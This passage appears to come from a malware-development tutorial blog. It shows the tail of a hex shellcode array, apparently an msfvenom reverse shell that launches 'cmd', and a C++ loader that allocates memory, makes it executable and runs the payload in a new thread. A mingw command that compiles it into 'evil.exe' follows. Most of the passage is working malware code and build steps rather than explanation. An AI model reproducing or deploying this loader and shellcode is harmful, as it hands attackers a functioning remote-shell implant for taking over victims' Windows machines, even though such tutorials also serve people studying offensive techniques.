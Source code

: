 ```cpp
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

The only difference is the our payload.   
Let's check firstly.
Compile:
```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![msfvenom](/assets/images/6/2021-09-18_20-35.png){:class="img-responsive"}
